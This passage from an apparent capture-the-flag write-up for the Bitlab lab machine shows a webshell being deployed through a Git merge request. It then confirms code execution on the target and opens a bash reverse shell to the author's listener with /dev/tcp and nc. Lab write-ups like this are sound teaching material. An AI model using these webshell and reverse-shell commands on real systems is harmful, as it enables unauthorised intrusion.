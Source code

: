 ![image-20200108224158218](https://0xdfimages.gitlab.io/img/image-20200108224158218.png)

This merge will take my new branch and add the changes into master, and that
will trigger the pushing of the code to Bitlab, so it’s running live on the
server.

I’ll make sure to check “﻿Remove source branch when merge request is
accepted.” (to clean up after myself), and hit Submit merge request. Now I’m
at the page for the request:

[![merge request](https://0xdfimages.gitlab.io/img/1567948660860.png)_Click
for full size image_](https://0xdfimages.gitlab.io/img/1567948660860.png)

Now I can hit merge, and the page updates in page to show it’s merged:

[![merged!](https://0xdfimages.gitlab.io/img/1567948704891.png)_Click for full
size image_](https://0xdfimages.gitlab.io/img/1567948704891.png)

Now on visiting `http://10.10.10.114/profile/?0xdf=id`, I see faint white text
at the top left:

[![webshell active](https://0xdfimages.gitlab.io/img/1567948801713.png)_Click
for full size image_](https://0xdfimages.gitlab.io/img/1567948801713.png)

In the view source window, I can see the result in the middle:

    
    
    <body>
        uid=33(www-data) gid=33(www-data) groups=33(www-data)
        <link href='http://fonts.googleapis.com/css?family=Open+Sans' rel='stylesheet' type='text/css'>
    <link href="//maxcdn.bootstrapcdn.com/font-awesome/4.2.0/css/font-awesome.min.css" rel="stylesheet">
    

### Shell

Now to translate that to a shell, I’ll visit
`http://10.10.10.114/profile/?0xdf=bash -c 'bash -i >%26
/dev/tcp/10.10.14.30/443 0>%261'`, and I get a callback on `nc`:

    
    
    root@kali# nc -lvnp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.114.
    Ncat: Connection from 10.10.10.114:48796.
    bash: cannot set terminal process group (1171): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@bitlab:/var/www/html/profile$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

## Shell as clave

### Enumeration
